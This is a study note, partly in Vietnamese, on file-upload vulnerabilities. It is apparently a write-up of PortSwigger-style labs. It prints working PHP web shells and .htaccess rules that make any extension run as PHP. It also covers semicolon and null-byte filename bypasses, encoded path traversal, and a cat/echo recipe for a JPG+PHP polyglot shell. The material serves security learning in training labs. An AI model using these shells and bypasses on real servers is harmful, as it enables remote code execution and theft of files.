# Kiến thức cần biết

## Common command PHP in File upload
```php
<?php echo file_get_contents('/path/to/target/file'); ?>

<?php echo system($_GET['command']); ?>
```

## MIME type: 

Tham khảo: [mine-type](https://www.baeldung.com/linux/file-mime-types)

## File .htaccess:

```.htaccess``` là tập tin cấu hình nhỏ được sử dụng bởi Apache HTTP Server (một trong những web server phổ biến nhất). Nó cho phép người quản trị hoặc lập trình viên thay đổi cách mà Apache xử lý thư mục hiện tại và các thư mục con mà không cần truy cập file cấu hình chính ```httpd.conf```.

- Cách dùng ```.htaccess``` để bypass upload:

  - Giả sử bạn không thể upload file .php, nhưng có thể upload .abc, ví dụ shell.abc

  - Thông thường server không xử lý .abc như PHP. Nhưng bạn có thể upload thêm 1 file .htaccess có nội dung:

```Addtype application/x-httpd-php .abc```

    • Điều này đảm bảo Apache: "Từ giờ hãy xử lý file .abc như file .php"

Hoặc có thể là:

```bash
<FilesMatch "\.abc$">
    SetHandler application/x-httpd-php
</FilesMatch>
```

**MỘT SỐ LƯU Ý**:

|🔥 Không phải server nào cũng dùng Apache  |	.htaccess chỉ áp dụng cho Apache|
|🔐 Một số server vô hiệu hóa AllowOverride  |	nghĩa là .htaccess sẽ bị bỏ qua|
|☠️ Không nên dùng .htaccess trên production | nếu không cần	Dễ gây lỗ hổng nếu sai config|


## Some Bypass Technique



1. ```Dấu chấm phẩy``` ; — dùng để ngắt phần mở rộng (trong một số context)
  • Khi bạn đặt tên file như:

```shell.php;.jpg```

  • Một số server (hoặc ứng dụng backend) sẽ:

    ○ Nhìn *.jpg → cho phép upload

    ○ Nhưng khi lưu file, server/ngôn ngữ (như PHP) cắt tên file ở trước dấu ; → thực tế lưu là:

```shell.php```

  ✅ **Kết quả**: File PHP được lưu đúng dạng ```.php```, và có thể thực thi được!
  
2. ```Null byte``` (```%00``` hay \0) — cắt chuỗi trong C/C++ hoặc một số API cũ
  • Ví dụ tên file:

```shell.php%00.jpg```

  Trước PHP 5.3.4 và trong một số hàm xử lý file (hoặc viết bằng C), khi gặp ```%00```, chuỗi bị cắt tại đó:

```C
strcpy(filename, "shell.php\0.jpg");
// filename = "shell.php"
```

  • Hệ thống kiểm tra thấy .jpg → cho phép

  • Nhưng khi lưu hoặc xử lý, nó nghĩ đó là .php → cho thực thi

  ⚠️ Lưu ý: Bypass bằng %00 chỉ hiệu quả trên:

    ○ Hệ thống cũ (PHP < 5.3.4)

    ○ Một số hàm C/C++ không escape null byte

Ứng dụng dùng thư viện xử lý tệp lỗi thời

## Polyglot file & ExifTool

- Polyglot file là 1 file duy nhất nhưng hợp lệ với nhiều định dạng cùng lúc:

  • Có thể được xử lý bởi nhiều trình phân tích định dạng khác nhau

Hoặc có thể chạy như nhiều loại mã (Vừa là JPG, vừa là PHP)

**Cách làm chi tiết (polyglot shell)**

📥 Bước 1: Tạo file ảnh + PHP shell

```bash
cat image.jpg > shell.php
echo "<?php system(\$_GET['x']); ?>" >> shell.php
```

  ✅ File shell.php lúc này:

    ○ Là ảnh hợp lệ (trình xem ảnh vẫn mở được)

    ○ Có code PHP ở cuối để thực thi lệnh

📤 Bước 2: Upload file shell.php

  • Nếu bị chặn extension .php, bạn đổi lại thành shell.php.jpg

  • Hoặc tìm cách bypass bằng .htaccess nếu lab yêu cầu (lab này có thể không cần)


🔎 Bước 3: Truy cập shell

Sau khi upload thành công, truy cập:

```bash
/files/avatars/shell.php?x=cat%20/home/carlos/secret
```

Hoặc nếu tên bạn đổi:

```bash
/files/avatars/shell.php.jpg?x=...
```

Nếu ```.php.jpg``` được xử lý như .php (có ```.htaccess``` hoặc config server cho phép) thì shell hoạt động.


# Lab File upload vulnerabilites:

## Lab: Remote code execution via web shell upload

**END goals**: upload a basic PHP web shell and use it to exfiltrate the contents of the file /home/carlos/secret.

- Overview website:





- I'm testing Choose File function by upload a file jpg and after click on the button Back to My account.

- Look at two packet I note in this picture:



- This is upload file and show file.



Try remove general content file and  write a php file ==> It's OK.

- Go to this file.



==>OKAY.

- Now lets write a php file with content below:

```bash
<?php echo system($_GET['x']); ?>
```





## Lab: Web shell upload via Content-Type restriction bypass

**END goals**: upload a basic PHP web shell and use it to exfiltrate the contents of the file /home/carlos/secret. 

- In this website, websites may attempt to validate file uploads is to check that this input-specific ```Content-Type header``` matches an expected ```MIME type```. If the server is only expecting image files, for example, it may only allow types like ```image/jpeg``` and ```image/png```






## Lab: Web shell upload via path traversal

**END goals**: upload a basic PHP web shell and use it to exfiltrate the contents of the file /home/carlos/secret

- Khi thử upload 1 file php lên web:





==>Trang web trả về dạng text nội dung của file đã gửi lên

==>Ở đây trang web đã thực hiện ngăn chặn không cho các file do user cung cấp được thực thi

-Có thể các file user cung cấp ở đây được gửi tới 1 ```reverse proxy server``` nào đó như ```load balancer``` để chạy ở ***chế độ nền***.

==>Vậy nếu gửi file ở trong path khác thì sao?

-Dùng path traversal để thử gửi về path: ```./files/shell.php``` thay vì ```./files/avatar/shell.php```



-Ta thử đổi tên file thành ```../shell.php``` để thử nhưng có vẻ đã bị server xóa mất các dấu ```../``` đằng trước.

==>Thử encode lại xem:



==>OKAY giờ thử vào xem nội dung của file này.




## Lab: Web shell upload via extension blacklist bypass

**END goals**: upload a basic PHP web shell, then use it to exfiltrate the contents of the file /home/carlos/secret.

- In this lab, we cannot bypass file upload via change the extension like ```shell.php``` --> ```shell.png.php``` or somethingelse like that.

- Look at the ```POST``` packet, we know that server web is Apache.



==>We try to upload a .htaccess file with destination is configured server execute file .xxx like file PHP with this content:

```Addtype application/x-httpd-php .prochicken```

-This mean server will execute file with extension ```.prochicken``` like file PHP.



After upload ```.htaccess```, upload ```shell.prochicken``` with php's content:


==>Solve.

## Lab: Web shell upload via obfuscated file extension

**END goals**:  upload a basic PHP web shell, then use it to exfiltrate the contents of the file /home/carlos/secret.



==>We can't upload any file extract ```JPG & PNG```

-Try to use ```NULL``` encoded in the file name to bypass:



==>It's work!

==>Solve.


## Lab: Remote code execution via polyglot web shell upload

**END goals**: upload a basic PHP web shell, then use it to exfiltrate the contents of the file /home/carlos/secret.

-In this lab, the web checks the contents of the file to verify that it is a genuine image.

==>Need a file have both contents of JPG and PHP shell code.

==>Try append php shell code to the jpg file

-first, we convert ```screen.jpg``` to ```shell.php``` and append php code to this file.



==>Look at the MIME type of ```shell.ph: jpg```

==>upload this file.



==> It's work



